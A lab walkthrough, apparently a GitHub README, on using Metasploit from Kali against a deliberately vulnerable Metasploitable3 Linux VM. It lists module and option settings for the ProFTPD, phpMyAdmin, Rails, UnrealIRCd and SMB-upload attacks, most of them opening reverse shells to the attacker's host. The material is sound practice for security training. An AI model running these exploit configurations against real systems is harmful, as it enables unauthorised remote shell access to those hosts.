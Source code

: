 ## Metasploit on the Linux Metasploitable3 

Here are several labs on running Metasploit from Kali on a Metasploitable3 Linux VM. Please make sure when you execute these labs you verify that home environment setup is working properly and you are able to scan the Metasploitable 3 Linux host from Kali using NMAP. Typically when you find the Metasploitable3 system it will have 5 or more open ports. This walkthrough is intended to get your familiar with the Metasploit tool and the options required to successfully execute the exploit.

## ProFTPD

`use exploit/unix/ftp/proftpd_modcopy_exec`

`set payload cmd/unix/reverse_perl`

`set rhosts xxx.xxx.xxx.xxx`

`set rport 80` (but it should already be set to that)

`set rport_ftp 21`

`set targeturi /`

`set tmppath /tmp`

`set sitepath /var/www/html`

`set lhost xxx.xxx.xxx.xxx` (this should be your kali linux IP address)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set payload cmd/unix/reverse_perl`

## phpMyAdmin
`use exploit/multi/http/phpmyadmin_preg_replace`

`set rhost xxx.xxx.xxx.xxx` (IP of the host you are attacking)

`set rport 80` (Port number Ruby app is listening on)

`set lhost xxx.xxx.xxx.xxx `(IP of the Kail VM you are attacking from)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set password sploitme`

`set targeturi phpmyadmin`

`set payload php/meterpreter/reverse_tcp`


## Ruby On Rails
`use exploit/multi/http/rails_actionpack_inline_exec`

`set rhost xxx.xxx.xxx.xxx` (IP of the host you are attacking)

`set rport 3500` (Port number Ruby app is listening on)

`set lhost xxx.xxx.xxx.xxx` (IP of the Kail VM you are attacking from)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set targeturi readme`

`set targetparam os`

`set payload ruby/shell_reverse_tcp`


## Unreal IRC

`use exploit/unix/irc/unreal_ircd_3281_backdoor`

`set rhost xxx.xxx.xxx.xxx` (IP of the host you are attacking)

`set rport 6697` (Port number IRC app is listening on)

`set lhost xxx.xxx.xxx.xxx` (IP of the Kail VM you are attacking from)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set payload cmd/unix/reverse`

## Samba FTP

`use auxiliary/admin/smb/upload_file`

`set rhosts xxx.xxx.xxx.xxx`

`set rport 445`

`set rport_ftp 21`

`set smbshare public`

`set smbuser chewbacca`

`set lpath /tmp/backdoor.php`

`set rpath backdoor.php`

`set lhost xxx.xxx.xxx.xxx` (this should be your kali linux IP address)

`set lport 4444` (Port on your system exploit and payload runs to create session)
